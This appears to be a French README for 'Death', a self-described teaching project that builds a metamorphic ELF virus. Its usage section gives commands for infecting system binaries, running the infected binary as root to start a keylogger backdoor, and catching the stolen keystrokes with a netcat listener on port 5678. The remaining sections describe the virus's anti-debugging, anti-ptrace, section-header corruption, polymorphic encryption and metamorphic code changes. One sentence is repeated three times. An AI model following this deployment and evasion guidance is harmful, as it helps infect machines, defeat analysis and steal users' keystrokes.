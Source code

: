 # Death

[@arobion][arobion]

Sommaire:
 1. Usage
 2. Description
 3. Fonctionement
    1. Infection
        1. Entry-Point Obscuring (EPO) technique
        2. Insertion
    2. Obfuscation
        1. Anti debug
        2. Anti breackpoint
        3. Anti ptrace
        4. Anti step by step
        5. Section header obfuscation
        6. Verification si un anti-virus
        7. Close EPO
    3. Polymorphisme
    4. Metamorphisme
    5. Backdoor
> ATTENTION : Ce projet est uniquement à **but pedagogique**.

## I - Usage

```shell
$> make
$> sh ./scripts/create_dir.sh #crée le dossier /tmp/test1 et /tmp/test2, copie les binaires ls, python, bash de /bin
$> ./death #infecte les deux dossiers
$> sh ./scripts/check.sh	#verifie si il y a des binaires infecté dans /tmp/test1 et /tmp/test2
$> sh ./scripts/infect.sh	#copie /tmp/test1/ls -> ./infected, recree le dossier /tmp/test1 et /tmp/test2, copie les binaires ls, python, bash de /bin et les infectes à partir de ./infected

#pour l'utilisation de la backdoor:
#modifier l'adresse IP dans ./src_s/anti_data.s
#être en root et lancer ./infected
$> sudo ./infected
#sur le poste qui a cette adresse IP lancer la commande
$> nc -l 5678 > keylogger.txt
#pour traduire les touches
$> python3 translate.py keylogger.txt
```

## II - Description

Ce projet est un virus metamorphique, qui est l'aboutissement de plusieurs projets:
- **WOODY-WOOPACKER**: Projet consistant à realiser un packer de elf64
- **FAMINE**: Projet consistant à crée un virus basique qui à pour but de simplement laisser une trace dans certains fichiers contenu dans un dossier spécifique
- **PESTILENCE**: Projet consistant à crée un virus obfusqué
- **WAR**: Projet consistant à crée un virus polymorphique

## III - Fonctionement

### Infection:
  - **Entry-Point Obscuring (EPO) technique**:
  
    Cette technique d'infection consiste à ouvrir plusieurs portes dans le binaire infecté, en remplacant dans celui-ci les appels de certaines fonctions par un jump sur notre virus et d'y revenir ensuite à la fin de l'execution de notre virus.
    Pour ce faire nous avons decidé d'infecter un binaire si il a plus de 50 ```call``` valides. C'est a dire une fonction commencant par le prolog ou alors si elle fait partie de la ```GOT```.
  - **Insertion**:
  
    Nous placons une partie de notre virus dans le padding de la section ```.text``` et le reste apres le ```.bss```.

### Obfuscation:

  #### Anti-debug:
  - **Anti breakpoint**:
      
      Lors du lancement de la routine d'infection, nous allons effectuer un ```hash``` de la partie de notre code qui permet le dechiffrement du ```payload```, puis nous allons utiliser ce ```hash``` en tant que clé de déchiffrement du ```payload```, qui, à la fin du déchiffrement aura une certaine valeure à laquelle nous ajoutons une autre valeure ( determinée lors de l'infection) qui correspond a l'adresse du debut du ```payload```.
      
      Ainsi, l'insertion d'un breakpoint corromp le ```hash``` ce qui entraine une mauvaise clé de déchiffremment ainsi qu'une mauvaise adresse du ```payload```.
  
  - **Anti ptrace**:
      
      Au lancement de la routine d'infection sur un binaire infecte, nous créons un enfant avec la commande ```fork```.
      
      Dans cet enfant nous essayons d'attacher le parent avec commande ```ptrace```, si l'attachement ne fonctionne pas nous arretons la routine d'infection.
      
      Si l'attachement fonctionne, nous allons dans l'enfant faire excuter la partie hash du père et récupérer cette valeur.
      
      Ensuite dans l'enfant nous allons executer la partie déchiffrement, et nous allons faire ```jump``` le parent à l'adresse obtenue.
  
  - **Anti step-by-step**:
      
      Vérification du Time-Stamp Counter grâce à l'insctrution ```rdtsc```.
      
      Vérification du ```RFLAGS``` ```TF``` grâce à l'insctruction ```pushfq```.
      
  - **Section header obfuscation**:
  
      Nous corrompons la section header pour ne plus avoir d'informations sur le binaire infecté.
      
  - **Verification de certains processus**:
  
      Nous recherchons si il y a un process avec le nom ```inhibitor```, si il est actif nous ne lancons pas notre virus.
      
  - **Close EPO**:
      
      Après le premier passage dans notre virus nous refermons les ```EPO``` pour ne plus repasser dans notre virus jusqu'à la fin de l'exécution du programme.
  
  #### Polymorphisme:
  Notre polymorphisme est basé sur un ```fingerprint``` unique, généré lors de l'infection du fichier.
  
  Ce fingerprint est obtenu grâce à un système de couplage ```index-fingerprint```, qui permet d'assurer un contrôle algorithmique de la génération du ```fingerprint```.
  
  Ce fingerprint est obtenu grâce à un système de couplage ```index-fingerprint```, qui permet d'assurer un contrôle algorithmique de la génération du ```fingerprint```.
  
  Grâce à ce fingerprint, nous obtenons des clés unique, nous permettant d'effectuer un chiffrement du ```payload``` different à chaque infection.
  
  Ce fingerprint est obtenu grâce à un système de couplage ```index-fingerprint```, qui permet d'assurer un contrôle algorithmique de la génération du ```fingerprint```.
  
  Chaque fonction du ```Payload``` est chiffrée grace à une clé unique issue d'un assemblage du fingerprint et du hash de cette fonction. 
  
  Lors de l'execution du ```Payload```, chaque fonction est ainsi déchiffrée avant son execution, puis rechiffrée des la fin de son execution, ce qui permet d'assurer une bonne protection contre l'analye dynamique.
  #### Metamorphisme:
  
   Nous avons dispatché dans la partie du virus non polymorphique des ```placeholder```.
   Nous les remplacons par différentes instructions, en fonction d'un motif généré à partir du ```fingerprint```.
    
| Exemples d'instructions | | | | | | 
| ------ | ------ | ------ | ------ | ------ | ------ |
| push rax  | nop | inc rax | dec rax | nop | push rax |
| nop | push rax | dec rax | inc rax | nop | pop rax |
| nop | pop rax | . | . | push rax | nop |
| pop rax | nop | . | . | pop rax | nop |

### Backdoor:
  La backdoor est un keylogger qui envoie les touches sur une adresse IP renseignée dans ```./srcs_s/anti_data.s``` sur le port ```5678```.




[arobion]: <https://github.com/arobion>
